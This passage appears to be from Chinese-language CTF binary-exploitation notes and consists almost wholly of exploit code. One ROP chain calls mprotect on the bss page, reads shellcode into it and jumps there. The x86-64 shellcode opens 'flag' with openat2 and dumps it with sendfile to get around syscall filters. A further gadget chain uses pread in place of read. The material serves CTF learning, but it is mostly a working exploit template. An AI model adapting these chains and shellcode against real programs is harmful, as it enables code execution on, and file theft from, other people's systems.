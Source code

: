 > **rop**
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```

> **shellcode**
>
> ```python
> shellcode = '''
> mov r12, 0x0067616c66
> mov [rsp], r12
> 
> xor rax, rax
> push rax
> push rax
> push rax
> push rax
> 
> mov rdi, -100       
> lea rsi, [rsp+0x20]  
> mov rdx, rsp         
> mov r10, 0x18        
> mov rax, 437        
> syscall
> mov rdi, 1
> mov rsi, rax
> mov rdx, 0
> mov r10, 0x100
> mov rax, 0x28
> syscall
> '''
> ```

### read替代

#### pread

> **rop**
>
> ```python
> rop += flat(pop_rdi, 3, pop_rsi, libc.sym["_IO_list_all"]+8, pop_rdx_r12, 0x200, 0, pop_rcx, 0, libc.sym["pread"])
> ```
